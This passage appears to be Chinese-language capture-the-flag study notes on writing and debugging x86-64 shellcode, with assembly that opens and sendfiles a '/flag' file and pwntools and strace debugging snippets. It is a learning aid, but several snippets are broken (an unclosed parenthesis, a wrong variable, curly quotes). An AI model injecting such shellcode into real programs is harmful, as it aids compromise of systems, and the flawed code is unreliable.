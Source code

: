 再比如`sendfile(1, open("flag", NULL), 0, 1000); exit()`

```assembly
mov rbx, 0x00000067616c662f
push rbx
mov rax, 2
mov rdi, rsp
mov rsi, 0
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 40
syscall

mov rax, 60
syscall
```

也可以使用python的pwntools生成

```python
from pwn import *
context.arch = "amd64"
my_sc_bytes = asm('''mov rax, 0x1337''')
# display the bytes
print(disasm(my_sc_bytes))


#shellcraft 自动化生成
from pwn import *
context.arch = "amd64"
my_sc = asm(shellcraft.cat("/flag")
# display the bytes
print(disasm(my_sc_bytes))
```



### 调试shellcode的方法

#### Debug shellcode with strace

```shell
$cat my_shellcode | strace ./target_binary 
```

#### Debug shellcode with pwntools

```python
#Debug shellcode with pwntools
from pwn import *
Context.arch = “amd64”
sc_bytes = asm(‘’’
  int3
  mov rax, 0x1337
  ‘’’)
#p = process(“challenge/whatever”)
p = gdb.debug(“/challenge/whatever”)
p.send(sc_bytes)
p.interactive()


#Debug shellcode inside the challenge itself
from pwn import *
context.arch = “amd64”
```